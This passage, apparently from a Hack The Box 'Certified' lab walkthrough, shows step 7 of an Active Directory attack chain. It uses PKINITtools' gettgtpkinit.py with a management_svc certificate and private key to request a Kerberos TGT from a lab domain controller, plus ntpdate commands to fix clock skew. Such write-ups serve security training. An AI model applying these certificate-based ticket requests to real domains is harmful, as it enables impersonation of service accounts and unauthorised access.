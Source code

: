 7.  TGT: Then **request the TGT ticket, using certificate for
    MANAGEMENT_SVC account**. If an error occurs, use ntpdate to
    synchronize the time zone.

> **INFO:** To get **gettgtpkinit.py** -\> search for-\> **PKINITtools**
>
> **-management_svc.pfx :**This file contains the certificate and
> private key for Management_svc account
>
> **RUN:** **python3 gettgtpkinit.py -cert-pfx management_svc.pfx
> CERTIFIED.HTB/management_svc management_svc.ccache -dc-ip 10.10.11.41
> -v**
>
> **INFO:** If not working, use NTP to synchronize your machine\'s clock
>
> **RUN:** **sudo apt-get install ntp**
>
> **RUN:** **sudo ntpdate 10.10.11.41** (ip is from DC (Machine's VPN
> IP))
>
> **RUN:** **sudo systemctl restart ntp**
>
> **Minikerberos : AS-REP encryption key**
>
> ![](images/media/image27.png){width="6.291666666666667in"
> height="5.307638888888889in"}
